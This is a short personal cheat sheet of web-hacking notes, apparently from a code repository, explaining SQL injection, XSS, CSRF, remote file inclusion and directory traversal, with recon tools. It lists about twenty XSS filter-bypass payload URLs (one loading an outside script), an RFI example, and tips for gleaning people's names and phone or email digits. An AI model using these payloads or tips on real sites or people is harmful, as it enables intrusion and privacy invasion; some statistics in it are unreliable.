 # Hack

## Glossary

* OPSEC = Trackability prevention

## Vulnerabilities

### SQL Injection

See <https://www.youtube.com/watch?v=ciNHn38EyRc>

### XSS

Stands for Cross-Site Scripting.
Insert a malicious script on a trusted website to capture sensitive information (by phishing or cookie stealing, essentially by producing an provoking request to a compromised website).
Caused by a lack of sanitization of URLs or input fields.
Accounts for 84% of all security vulnerabilities.
See <https://en.wikipedia.org/wiki/Cross-site_scripting>

There exists two types of XSS vulnerabilities: Persistent and Non-Persistent.

#### Non-Persistent (reflected)

Craft a URL containing a malicious script to a legit website that displays the URL parameter as-is on the page.
The victim browses the linked page containing the script, which is run when he lands on the page.

E.g. the results of a lousy search engine "You searched: javascript:alert('oh no')") and send that URL to the victim.

URL-based => can be performed either by GET or POST.

Examples (different ways to bypass input sanitization):

    website.com/search.php?q="><script>alert('The Hacker News')</script>
    website.com/search.php?q="><script>alert("The Hacker News")</script>
    website.com/search.php?q="><script>alert("The Hacker News");</script>
    website.com/search.php?q="><script>alert(/The Hacker News");</script>
    website.com/search.php?q=//"><script>alert(/The Hacker News/);</script>
    website.com/search.php?q=abc<script>alert(/The Hacker News/);</script>
    website.com/search.php?q=abc"><script>alert(/The Hacker News/);</script>
    website.com/search.php?q=abc"></script><script>alert(/The Hacker News/);</script>
    website.com/search.php?q=abc//abc"></script>alert(/The Hacker News/);</script>
    website.com/search.php?q=000"><script></script><script>alert(The Hacker News);</script>
    website.com/search.php?q=000abc</script><script>alert(/The Hacker News/);</script>
    website.com/search.php?q=--<script>"></script>alert(/The Hacker News/);</script>
    website.com/search.php?q=pwned<script>document.write('The Hacker News');</script>
    website.com/search.php?q=pwned</script><script>document.write(The Hacker News);</script>
    website.com/search.php?q=pwned')alert(The Hacker News);//
    website.com/search.php?q=pwned";)alert(The Hacker News);//
    website.com/search.php?q=pwned");alert(/The Hacker News/);//
    website.com/search.php?q=pwned//"></script><script>location.href='javascript:alert(/The Hacker News/);</script>
    website.com/search.php?q="><img src='javascript:alert('The Hacker News');'>
    website.com/search.php?q="><script src='http://malicous js'</script>

#### Persistent (stored)

Inject malicious code (via an input field) saved and displayed as-is on a page of a legit website.
When victims load the page, the script is run.

E.g. a website that allows to edit user profiles, where malicious scripts can be entered, that will be run when someone browser that user profile's page.

### CSRF/XSRF

Stands for Cross-Site Request Forgery.
Directs a victim to a legit website (e.g. his bank) where he's currently logged on, via a (sometimes hidden) forged URL (sent e.g. in an e-mail) crafted so that it accomplishes something immediately (e.g. wire money away).
Caused by a lack of mechanisms to check the source of a request (URL referer or generated form token).
Example: this technique was used recently to auto-"Like" pages on Facebook by visiting another website, that overlayed hidden Like buttons atop other page elements unbeknowst to the victim.

### RFI

Used to bypass same website policy.
File inclusion not filtered, can run anything even PHP.
Via URL parameters:

    index.php?page=http://www.google.com

Find more pages via Google inurl:"index.php?page="

### Directory Traversal

Used to access server file system listing or even commands.

  ../

### Where to look

* Source
  * Form inputs/hidden
  * Find Directory /index
* URL parameters
* robots.txt
* Cookies
* .htaccess/.htpasswd

## Tools

* Wayback machine = Investigate the (now hidden) past
* Facebook bait using CRSF = Get someone's name
* "Forgot Password?" = grab last digits of email/phone
* [Shodan](https://www.shodan.io/) = IoT search engine (webcams, unprotected devices)
* Censys
* Zoomeye
* [Autosploit](https://github.com/NullArray/AutoSploit)
